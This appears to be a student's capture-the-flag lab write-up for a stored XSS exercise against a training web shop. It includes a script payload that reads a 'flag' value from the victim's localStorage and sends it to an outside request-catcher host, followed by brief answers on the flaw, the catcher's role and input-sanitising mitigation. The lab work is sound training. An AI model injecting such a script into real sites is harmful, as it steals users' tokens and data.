

# XSS - Cowbell Shop 3
## Prepare exploit
```html
<script type='text/javascript'> 
var oReq = new XMLHttpRequest(); 
oReq.open('GET','https://9cb018f7-81e6-4401-9f98-b0de24fc2195.idocker.vuln.land/extractedData='+JSON.stringify(localStorage.getItem('flag')));
oReq.send(); 
</script> 
```

## Security questions
1. What is the problem with the vulnerable web shop?  
The web app renders the script and execute the script as shown in the screenshot.

[](.\XSS - Cowbell Shop 3.png)


2. What is the purpose of the request catcher service?  

While the target is surfing on the site, the script is executed in the background. The execution of the script makes it possible to catch the token/flag of the target. The only thing that the "request catcher" makes is to catch, store and show the catched information (prepared Attacker side).

3. How would you mitigate that risk?

The server has to validate and santize the input on the first entry of the data. Especially the < > characters and decode if it's in base64. 